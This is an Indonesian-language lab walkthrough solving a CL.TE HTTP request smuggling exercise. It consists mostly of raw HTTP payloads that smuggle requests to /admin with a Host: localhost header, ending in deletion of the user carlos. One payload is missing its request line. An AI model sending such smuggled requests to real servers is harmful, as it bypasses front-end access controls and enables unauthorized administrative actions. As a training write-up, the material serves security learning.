









# Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

 Lab ini melibatkan server front-end dan back-end, dan server front-end tidak mendukung pengkodean chunked. Terdapat panel admin di `/admin` Namun, server front-end memblokir akses ke sana.

Untuk menyelesaikan lab ini, selundupkan permintaan ke server back-end yang mengakses panel admin dan menghapus pengguna. carlos. 

## 1

Kirim Request berikut 2 kali

```bash
POST / HTTP/1.1
Host: 0a9e00bd04e7a21281ded4cd00970043.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```





Perhatikan bahwa permintaan yang digabungkan ke /adminDitolak karena tidak menggunakan header. `Host: localhost`. 

## 2

Kirim Request berikut 2 kali

```bash
POST / HTTP/1.1
Host: 0a9e00bd04e7a21281ded4cd00970043.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Ignore: X
```





Perhatikan bahwa permintaan tersebut diblokir karena header Host pada permintaan kedua bertentangan dengan header Host yang diselipkan pada permintaan pertama. 

## 3

Kirimkan permintaan berikut dua kali sehingga header permintaan kedua ditambahkan ke badan permintaan yang diselundupkan: 

```bash
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```









Perhatikan bahwa Anda sekarang dapat mengakses panel admin.


Dengan menggunakan respons sebelumnya sebagai referensi, ubah URL permintaan yang diselundupkan menjadi hapus carlos: 

Kirimkan 2 kali

```bash
POST / HTTP/1.1
Host: 0a9e00bd04e7a21281ded4cd00970043.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

